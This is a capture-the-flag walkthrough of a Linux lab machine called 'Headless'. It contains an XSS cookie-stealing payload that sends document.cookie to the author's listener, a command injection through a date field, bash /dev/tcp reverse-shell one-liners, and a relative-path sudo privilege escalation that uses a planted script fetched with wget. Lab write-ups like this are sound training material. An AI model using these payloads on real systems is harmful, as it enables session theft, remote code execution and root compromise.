









# Headless
## OS: Linux
## Difficulty: Easy

## Enumeration:

I'll start with a simple port scan.
```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.189.70 --max-retries 1
```

```
PORT     STATE SERVICE VERSION                                                                                                                                                                                                              
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)                                                                                                                                                                        
| ssh-hostkey:                                                                                                                                                                                                                              
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)                                                                                                                                                                             
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)                                                                                                                                                                           
5000/tcp open  upnp?                                                                                                                                                                                                                        
| fingerprint-strings:                                                                                                                                                                                                                      
|   GetRequest:                                                                                                                                                                                                                             
|     HTTP/1.1 200 OK                                                                                                                                                                                                                       
|     Server: Werkzeug/2.2.2 Python/3.11.2                                                                                                                                                                                                  
|     Date: Thu, 29 Aug 2024 12:37:20 GMT                                                                                                                                                                                                   
|     Content-Type: text/html; charset=utf-8                                                                                                                                                                                                
|     Content-Length: 2799                                                                                                                                                                                                                  
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/                                                                                                                                                                     
|     Connection: close                                                                                                                                                                                                                     
|     <!DOCTYPE html>                                                                                                                                                                                                                       
|     <html lang="en">                                                                                                                                                                                                                      
|     <head>                                                                                                                                                                                                                                
|     <meta charset="UTF-8">                
```

Let's take a look at the web server on port 5000.


Nothing much on this page. Following the link, we land on a contact support page.


I'll run gobuster to search for more pages.
```bash
gobuster dir -u http://10.129.189.70:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```



Let's check the dashboard page.





As we can see we should obtain a is_admin cookie. We can do this by stealing the cookie of the administrator using the contact support page.

I'll open Burpsuite for this.

```payload
<script>var i=new Image(); i.src="http://10.10.14.142:8000/?cookie="+btoa(document.cookie);</script>
```

I'll also start a web server on port 8000.
```bash
python3 -m http.server -b 10.10.14.142
```



That's not good. We can see our request is displayed as the result of the hacking attempt so we can try to put our payload somewhere in the request headers.

I'll change the User-Agent header.



```           
Serving HTTP on 10.10.14.142 port 8000 (http://10.10.14.142:8000/) ...
10.129.189.70 - - [29/Aug/2024 16:13:12] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

It worked! Now let's try to access the dashboard page. We will first need to decode this.

```bash
echo aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= |base64 -d

is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```



## Foothold:

I'll generate a report and capture the request with burpsuite. I'll try a simple command injection payload.

```
2023-09-15;ls
```



This works. Now let's try to get a shell.

On host:
```bash
rlwrap nc -lnvp 6666
```

Payload:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.142/6666 0>&1' #Note: URL encoded
```



It worked! Now let's get the user flag.

```bash
cd ~
cat user.txt
```

## We got the user flag!

## Privilege Escalation:

Let's see if we can run anything as the root user.

```bash 
sudo -l

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

And we can. Now let's see what it does.

```bash
cat /usr/bin/syscheck

#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

Something stood out to me when reading the script. It uses the relative path of initdb.sh instead of an absolute path. So we can make a script with the same name that starts a reverse shell. This script will be called as the root user.

Script:
```bash
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.142/6667 0>&1' 
```

I'll start a server and transfer it to the target.

Host:
```bash
python3 -m http.server -b 10.10.14.142
```

Target:
```bash
wget http://10.10.14.142:8000/initdb.sh

chmod +x initdb.sh
```

We also need to start another listening port.
Host:
```bash
rlwrap nc -lnvp 6667
```

And now let's run the script.
```bash
sudo /usr/bin/syscheck
```



And it worked. Now let's get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!